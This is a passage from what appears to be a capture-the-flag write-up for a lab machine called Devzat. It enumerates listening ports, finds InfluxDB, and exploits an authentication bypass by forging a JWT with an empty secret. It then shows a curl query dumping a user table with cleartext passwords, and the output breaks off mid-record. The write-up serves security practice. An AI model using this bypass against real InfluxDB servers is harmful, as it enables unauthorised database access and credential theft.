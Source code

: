 ```console 
tcp                  LISTEN                0                     4096                                  127.0.0.53%lo:53                                        0.0.0.0:*                                                                    
tcp                  LISTEN                0                     4096                                      127.0.0.1:8086                                      0.0.0.0:*                                                                    
tcp                  LISTEN                0                     128                                         0.0.0.0:22                                        0.0.0.0:*                                                                    
tcp                  LISTEN                0                     4096                                      127.0.0.1:8443                                      0.0.0.0:*                                                                    
tcp                  LISTEN                0                     511                                               *:80                                              *:*                                                                    
tcp                  LISTEN                0                     128                                            [::]:22                                           [::]:*                                                                    
tcp                  LISTEN                0                     4096                                              *:8000                                            *:*                    users:(("devchat",pid=948,fd=7))                
```
As we can see port 8086 is indeed in use. Searching for vulnerabilities in influxdb returns an [Authentication bypass](https://security.snyk.io/vuln/SNYK-GOLANG-GITHUBCOMINFLUXDATAINFLUXDBSERVICESHTTPD-1041719)

We can create a valid jwt on <https://jwt.io> with an empty secret. 
![JWT generation through jwt.io](jwt.png)

We can then enumerate the database and dump the user table:
```console
patrick@devzat:/home$ curl -G $url --data-urlencode "db=devzat" --data-urlencode "q=SELECT * FROM \"user\"" -H "Authorization: Bearer $token"
{
    "results": [
        {
            "statement_id": 0,
            "series": [
                {
                    "name": "user",
                    "columns": [
                        "time",
                        "enabled",
                        "password",
                        "username"
                    ],
                    "values": [
                        [
                            "2021-06-22T20:04:16.313965493Z",
                            false,
                            "WillyWonka2021",
                            "wilhelm"
                        ],
                        [
                            "2021-06-22T20:04:16.320782034Z",
                            true,
                            "woBeeYareedahc7Oogeephies7Aiseci",
                            "catherine"
                        ],
                        [
                            "2021-06-22T20:04:16.996682002Z",
                            true,
                            "RoyalQueenBee$",
```